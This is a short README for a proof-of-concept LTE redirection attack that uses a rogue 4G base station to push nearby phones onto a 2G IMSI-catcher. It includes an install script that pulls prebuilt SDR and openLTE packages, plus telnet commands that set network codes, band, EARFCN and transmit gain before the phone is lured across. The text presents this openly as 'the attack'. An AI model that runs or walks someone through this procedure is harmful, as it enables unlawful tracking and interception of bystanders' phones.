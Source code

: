 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/
  
The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


* Installing 2G IMSI-Catcher
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
Shell #1  
LTE_fdd_enodeb

Shell #2  
telnet localhost 30000  
write rx_gain 30  
write tx_gain 80  
write mcc 215  
write mnc 15  
write band 7  
write dl_earfcn 3350  
(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
start  
  
wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
https://www.youtube.com/shorts/j5cs28u4DAo  
https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
